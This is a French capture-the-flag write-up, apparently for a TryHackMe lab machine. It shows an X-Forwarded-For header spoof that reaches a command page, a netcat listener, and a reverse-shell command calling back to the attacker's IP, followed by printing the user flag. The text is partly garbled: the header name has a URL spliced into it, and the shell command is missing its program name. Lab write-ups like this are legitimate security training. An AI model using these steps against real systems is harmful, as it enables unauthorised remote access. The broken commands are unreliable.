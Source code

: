 On a un message d'erreur qui accepte que les personnes avec l'ip 10.10.10.x. 

![page8](./Task1-08.png)

Dans burpsuit on modifie l'header avec X-http://shell.harder.local/Forwarded-For: 10.10.10.2, pour faire croire que l'on vient de cette adresse ip.   

On tombe sur une page qui nous permet de passer des commandes.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ..
```

On écoute sur le port 1234 pour se connecter au reverse shell.    

On passe la commande : 10.9.228.66 1234 -e /bin/sh
Ne pas oublier de mettre X-Forwarded-For: pour chaque requête.

 **Hack the machine and obtain the user Flag (user.txt)**

 ```bash
id
uid=1001(www) gid=1001(www) groups=1001(www)

ls /home/
evs
www

cat /home/evs/user.txt
7e88bf11a579dc5ed66cc798cbe49f76
```
